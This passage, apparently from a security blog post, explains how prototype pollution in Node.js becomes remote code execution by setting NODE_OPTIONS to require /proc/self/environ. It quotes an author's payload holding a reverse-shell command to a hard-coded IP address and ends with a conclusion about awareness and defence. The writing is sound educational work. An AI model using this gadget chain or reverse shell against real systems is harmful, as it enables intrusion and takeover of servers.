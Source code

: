 Yes! A common technique is to control the content of some files, such as the PHP session content, which can be controlled, as described in this article: [Triggering RCE by introducing PHP session files through LFI](https://kb.hitcon.org/post/165429468072/%E9%80%8F%E9%81%8E-lfi-%E5%BC%95%E5%85%A5-php-session-%E6%AA%94%E6%A1%88%E8%A7%B8%E7%99%BC-rce). Another file in Linux systems, `/proc/self/environ`, contains all the environment variables of the current process. 

If we create an environment variable called `A=console.log(123)//`, the contents of `/proc/self/environ` will change:

``` js
A=console.log(123)//YARN_VERSION=1.1PWD=/userLANG=en_US.UTF-8....
```

becomes valid JS code!

So you can execute it like this:

``` js
NODE_OPTIONS="--require /proc/self/environ" A='console.log(1)//' node b.js
```

The code provided by the author looks like this:

``` js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

It pollutes two different properties, creates two environment variables, one to turn `/proc/self/environ` into valid JS and includes the code to execute, and the other `NODE_OPTIONS` uses `--require` to import `/proc/self/environ`, finally creating an RCE vulnerability that can execute any code!

## Conclusion

Before I got into cybersecurity, I had never heard of prototype pollution.

So when I first encountered the prototype pollution vulnerability, I was a bit surprised. What surprised me was why I had never heard of it before? Compared to common vulnerabilities in front-end development such as XSS or CSRF, the notoriety of prototype pollution seems to be much lower.

Some people may have first heard of this term because a certain NPM package had this vulnerability, which was fixed after upgrading to a new version, but they may not have understood the cause of the vulnerability and its potential impact.

I actually quite like this vulnerability, first because I think the cause is interesting, and second because I think finding script gadgets is also interesting. In any case, I hope that through this article, more front-end engineers can become aware of this vulnerability and understand its principles and defense methods.

Finally, I recommend a great article that automatically detects prototype pollution vulnerabilities and identifies problem areas, which I think takes prototype pollution to another level: [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild](https://blog.s1r1us.ninja/research/PP)
